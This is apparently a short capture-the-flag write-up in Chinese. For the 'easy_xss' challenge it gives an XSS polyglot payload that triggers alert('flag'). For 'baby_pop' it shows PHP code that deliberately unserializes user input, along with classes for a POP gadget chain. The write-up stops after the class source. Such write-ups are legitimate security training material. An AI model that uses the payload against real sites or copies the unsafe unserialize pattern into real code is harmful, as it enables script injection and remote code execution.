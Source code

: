 ## easy_xss

hackbar 的 payload 弹flag字段即可得到flag

`jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert("flag") )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert("flag")//>\x3e`

## baby_pop

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
include "class.php";

if (isset($_GET['source'])) {
    show_source("class.php");
} else {
    unserialize($_GET['pop']);
}
```

``?source=1 进入下一步``

```php
class dstbp
{
    private $cmd;
    private $content;

    public function __construct($cmd, $content)
    {
        $this->cmd = $cmd;
        $this->content = $content;
    }

    public function __invoke()
    {
        ($this->cmd)($this->content);
    }
}

class m1sery
{
    public $ctf;
    public $time = "Two and a half years";

    public function __construct($ctf)
    {
        $this->ctf = $ctf;
    }


    public function __toString()
    {
        return $this->ctf->show();
    }

    public function show(): string
    {
        return $this->ctf . ": Duration of practice: 2.5 years";
    }


}
```